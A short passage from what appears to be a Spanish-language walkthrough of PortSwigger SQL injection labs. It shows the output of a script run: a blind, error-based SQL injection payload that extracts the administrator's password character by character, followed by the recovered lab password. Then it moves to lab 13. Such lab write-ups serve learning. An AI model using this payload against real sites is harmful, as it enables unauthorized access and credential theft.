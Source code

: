 ```null
python3 /home/rubbx/Desktop/sqli_lab12.py
[◥] Blind SQLi:: NEQKfeMP7dS3xYpf'||(select case when substr(password,20,1)='u' then to_char(1/0) else '' end from users where username='administrator')||'
[b] Password:: 1sog9b6p4vh7260pf08u
```

Me loggeo para terminar el laboratorio

<img src="/img/articulos/sqli-portswigger/49.png" alt="">

# LAB13

* **Instrucciones**

<img src="/img/articulos/sqli-portswigger/50.png" alt="">

* **Página Principal**
